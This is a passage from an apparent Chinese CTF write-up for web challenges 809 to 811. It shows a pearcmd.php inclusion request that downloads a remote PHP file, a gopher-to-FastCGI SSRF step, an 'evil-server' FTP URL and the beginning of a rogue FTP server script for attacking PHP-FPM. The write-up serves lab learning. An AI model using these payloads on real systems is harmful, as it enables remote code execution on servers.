 出网的：

```
GET /?file=/usr/local/lib/php/pearcmd.php&+install+-R+/tmp+http://xxx:xxx/test.php 
```

![image-20220704160504056](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220704160504056.png)



然后直接包含：
![image-20220704160530449](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220704160530449.png)

##  web810

考点：SSRF中gopher打fastcgi

直接gopherus工具一把嗦



![image-20220705111154019](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220705111154019.png)



##  web811

考点：FTP的被动模式打FPM漏洞代码、

```php
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

这里读取路径viewFile，之后写回文件中。这看似什么都没有做。

这份代码可以用来攻击PHP-FPM



如果一个客户端试图从FTP服务器上读取文件，服务器会通知客户端将文件的内容读取（或写）到一个特定的IP和端口上。而且，这里对这些IP和端口没有进行必要的限制。例如，服务器可以告诉客户端连接到自己的某一个端口。

现在如果我们使用`viewFile=ftp://evil-server/file.txt`那么会发生：



首先通过 file_get_contents() 函数连接到我们的FTP服务器，并下载file.txt。
然后再通过 file_put_contents() 函数连接到我们的FTP服务器，并将其上传回file.txt。

那此时，在它尝试使用file_put_contents()上传回去时，我们告诉它把文件发送到127.0.0.1:9001(fpm的端口，默认是9000)
那么，我们就在这中间造成了一次SSRF，攻击php-fpm



我们先来个恶意的FTP:

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0',2345)) #端口可改
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
```